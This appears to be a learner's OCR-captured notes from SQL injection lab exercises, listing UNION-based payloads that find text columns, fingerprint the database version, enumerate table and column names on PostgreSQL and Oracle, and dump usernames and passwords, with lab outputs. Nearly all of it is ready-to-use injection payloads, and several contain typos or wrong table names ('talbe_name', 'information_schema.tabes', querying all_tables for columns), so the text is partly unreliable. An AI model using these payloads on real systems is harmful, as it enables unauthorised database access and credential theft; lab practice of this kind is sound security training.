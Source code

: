 ``` What_columns_have_text
' UNION SELECT 'a', 'a' #
```
``` What_version
' UNION SELECT @@version, NULL#
```
-------------------------------------------------------------
-------------------------------------------------------------

### 9.  SQLi: Listing the `database contents` on `non Oracle` DBs
+ 2 columns and both accept text
+ Most DBs accept `--` as a comment
+ Table names for _Postgre_ is `information_schema.tabes`
 - `table_name` is a uselful table name to get _table names_
+ Column names for _Postgre_ is `information_schema.columns`
 - `column_name` is a useful table name to get _column names_

```What_Version
' UNION SELECT @@version, NULL-- didn't work, not Microsoft
' UNION SELECT version(), NULL-- worked (200) response, Postgre
```

```List_Table_Names_Postgre
' UNION SELECT table_name, NULL FROM information_schema.columns--

Output: users_xacgms
```

```List_Column_Names_Postgre
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE talbe_name= 'users_xacgms'--

Output:
        username_pxqwui
        password_bfvoxs
```

```Output_the_Usernames_and_Passwords
' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--
```

-------------------------------------------------------------
-------------------------------------------------------------

### 10. SQLi: Listing the `database contents` on `Oracle`

```List_Table_Names_Postgre
' UNION SELECT table_name, NULL FROM all_tables--

Output: USERS_JYPOMG
```

```List_Column_Names_Postgre
' UNION SELECT column_name, NULL FROM all_tables WHERE talbe_name= 'USERS_JYPOMG'--

Output:
        USERNAME_LDANZP
        PASSWORD_DYZWEQ
```

